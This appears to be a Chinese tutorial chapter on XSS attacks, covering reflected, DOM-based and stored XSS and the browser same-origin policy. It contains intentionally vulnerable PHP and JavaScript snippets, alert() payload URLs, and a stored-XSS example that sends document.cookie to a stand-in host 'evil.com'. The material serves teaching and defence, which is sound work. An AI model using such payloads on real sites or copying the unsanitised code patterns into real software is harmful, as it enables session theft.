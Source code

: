 ## Web安全之机器学习 -
# ch 3. XSS攻击

************

## 1. XSS攻击的概念和原理

XSS(cross-site scripting)攻击：攻击者在Web页面里插入恶意html标签或者javascript代码，当用户浏览该页或者进行某些操作时，攻击者利用用户对原网站的信任，诱骗用户或浏览器执行一些不安全的操作或者向其它网站提交用户的私密信息。其实现方式往往是在网站开发者提供的用于显示用户数据的地方加入脚本。

XSS攻击的危害包括：
- 盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 盗窃企业重要的具有商业价值的资料
- 非法转账
- 强制发送电子邮件
- 网站挂马
- 控制受害者机器向其它网站发起攻击

等等。

当用户已经登录了某个网站、便获得了一个session，xss攻击者可以利用这个session，越过用户验证，进行一些不安全的操作。

常见的行为是读取cookie，构造例如一个img标签，将其src属性指向恶意第三方网站，将cookie的内容作为参数附在src的url上，这样黑客就能在其网站上获得你的cookie信息，这就是所谓的cookie劫持。

恶意代码另一种常见的行为是执行GET或POST等操作。GET操作同上，指定img的src方法，中招者的浏览器即会发起一个get请求，其性质可能是删除某个中招者有权限删除的文章之类。POST操作可能是由恶意脚本构建一个表单并直接提交，也可能是构建一个ajax请求提交。

因此，一般的邮箱客户端不会自动从不信任的网站上加载图片（考虑到可以通过img的src属性向第三方站点发送GET请求）；另外，可以设置session的过期时间，让session自动失效。

## 2. XSS攻击方式

XSS攻击可分为三种：反射型，持久型，DOM型。

### 反射型

反射型XSS也称为非持久性XSS（即一次性的攻击，仅对档次的页面访问产生影响）。这种攻击方式中，XSS的Payload通常在url中、并设法让受害者点击该链接。

如果url中的一部分会直接显示到页面上，黑客可以构造一个恶意url，使其中含有xss代码，再把这个url引诱用户点开，用户点开之后，xss代码显示到页面上，被浏览器理解为脚本执行，达到黑客的目的。

例如，如果一个网页从url中读取name参数并显示在页面，那么攻击者可制作恶意url，使得name传入的内容为一个恶意`<script>`。如果网站没有对传入的name参数内容进行过滤，则使得受害者点击时浏览器执行该脚本。

假设后端代码为：
```php
<?php
  $username = $_GET['username'];
  echo $username;
?>
```

攻击链接为：
`http://excample.com?username=<script>alert()</script>`

对于用于攻击的URL，攻击者一般不会直接使用可读形式，而是将其转换成ASCII码。

### DOM型

DOM Based XSS是一种基于网页DOM（文档对象类型）结构的攻击。也通过受害者点击链接触发。
DOM based XSS发生在客户端处理数据阶段，不需要与服务器进行交互，针对的是前端代码(javaScript代码)中的漏洞。

例如，假设前端代码为：
```javascript
<script>
  var temp = document.URL;
  var index = document.URL.indexOf("content=")+4;
  var par = temp.substring(index);
  document.write(decodeURI(par));
</script>
```

攻击链接为：
`http://excample.com?content=<script>alert()</script>`

### 存储型XSS

Stored XSS又称持久型XSS，由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。Stored XSS漏洞危害性更大，危害面更广。

例如，excample.com上可以发表文章（或评论），攻击者发布了一篇文章，文章中包含了恶意代码:

```javaScript
<script>window.open("www.evil.com?param="+document.cookie)</script>
```

这时其他用户浏览了文章，于是他们的cookie信息都发送到了攻击者的服务器。

因此，为了安全考虑，网站对于用户输入需要进行标签白名单过滤，或者全部转码为数据。

上面的三种攻击方式总结如下：
<table>
<tr>
<th>攻击类型</th> <th>漏洞</th> <th>攻击方式</th>
</tr>
<tr>
<td> 反射型XSS</td> <td>后端代码漏洞</td> <td>诱骗受害者点击链接。</td>
</tr>
<tr>
<td> DOM型XSS</td> <td>前端代码漏洞</td> <td>诱骗受害者点击链接。</td>
</tr>
<tr>
<td> 存储型XSS</td> <td>后端代码漏洞</td> <td>用户访问被攻击页面。</td>
</tr>
</table>

## 3. 浏览器的同源策略

同源策略是Netscape于1995年提出的一个著名的安全策略，同源策略是浏览器最核心最基础的安全策略。判断同源（origin）的三个要素：

- 相同的协议
- 相同的域名
- 相同的端口号

假如没有同源策略，黑客可以在其恶意页面中嵌入诸如银行页面，并在用户提交银行用户信息时获取到这些输入。或者，假设用户已经成功登录Gmail服务器，同时在同一个浏览器访问恶意站点（另一个浏览器选项卡）；没有同源策略，攻击者可以通过JavaScript获取邮件以及其他敏感信息，发送虚假邮件，查看聊天记录等等。

### 限制范围

非同源的网站之间：

- 无法共享 cookie, localStorage, indexDB
- 无法操作彼此的 dom 元素
- 无法发送 ajax 请求
- 无法通过 flash 发送 http 请求
- 其他

### 跨域

同源策略做了很严格的限制，但是在实际的场景中，又确实有很多地方需要突破同源策略的限制，也就是我们常说的跨域。有很多方式可以实现跨域，例如使用 CORS。以下是一些可以跨域内嵌的资源示例：

- `<script src="..."></script>` 标签嵌入跨域脚本。语法错误信息只能在同源脚本中捕捉到。
- `<link rel="stylesheet" href="...">` 标签嵌入CSS。由于CSS的松散的语法规则，CSS的跨域需要一个设置正确的 Content-Type 消息头。不同浏览器有不同的限制。
- `<img>` 嵌入图片。支持的图片格式包括 PNG, JPEG, GIF, BMP, SVG, ...
- `<video>` 和 `<audio>` 嵌入多媒体资源。
- `<object>`, `<embed>` 和 `<applet>` 的插件。
-  `@font-face` 引入的字体。一些浏览器允许跨域字体（cross-origin fonts），一些需要同源字体（same-origin fonts）。
- `<frame>` 和 `<iframe>` 载入的任何资源。站点可以使用X-Frame-Options消息头来阻止这种形式的跨域交互。

-----

## ref

https://zhuanlan.zhihu.com/p/24780216

https://segmentfault.com/a/1190000007366644

https://segmentfault.com/a/1190000004186889

</br></br>
